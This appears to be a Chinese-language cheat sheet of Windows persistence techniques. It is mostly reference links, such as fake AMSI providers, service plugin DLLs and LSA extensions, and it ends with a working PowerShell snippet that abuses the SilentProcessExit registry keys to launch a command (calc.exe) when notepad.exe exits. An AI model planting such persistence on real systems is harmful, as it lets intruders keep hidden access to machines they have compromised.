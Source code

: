 [https://www.hexacorn.com/blog/2017/01/18/beyond-good-ol-run-key-part-55/](https://www.hexacorn.com/blog/2017/01/18/beyond-good-ol-run-key-part-55/)

## amsi

[https://github.com/gtworek/PSBits/tree/master/FakeAMSI](https://github.com/gtworek/PSBits/tree/master/FakeAMSI)

[https://learn.microsoft.com/zh-cn/windows/win32/amsi/dev-audience](https://learn.microsoft.com/zh-cn/windows/win32/amsi/dev-audience)

## 服务插件

[https://github.com/gtworek/PSBits/tree/master/ServerLevelPluginDll](https://github.com/gtworek/PSBits/tree/master/ServerLevelPluginDll)

## lsa拓展

[https://x.com/0gtweet/status/1476286368385019906](https://x.com/0gtweet/status/1476286368385019906)

HKLM\SYSTEM\CurrentControlSet\Control\LsaExtensionConfig\LsaSrv

## 命令行

[https://nasbench.medium.com/persistence-using-windows-terminal-profiles-5035d3fc86fe](https://nasbench.medium.com/persistence-using-windows-terminal-profiles-5035d3fc86fe)

## 开机启动文件夹

%appdata%\Microsoft\Windows\Start Menu\Programs\Startup

## **Autodial DLL**

[https://www.hexacorn.com/blog/2015/01/13/beyond-good-ol-run-key-part-24/](https://www.hexacorn.com/blog/2015/01/13/beyond-good-ol-run-key-part-24/)

## 静默退出

1. `$monitoredApp = "notepad.exe"`
2. `$monitor = "powershell -c calc.exe #"`

3. `New-Item -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$monitoredApp" | Out-Null`
4. `Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$monitoredApp" -Name GlobalFlag -Value 512`

5. `New-Item -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" | Out-Null`
6. `Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" -Name ReportingMode -Value 1`
7. `Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" -Name MonitorProcess -Value $monitor`

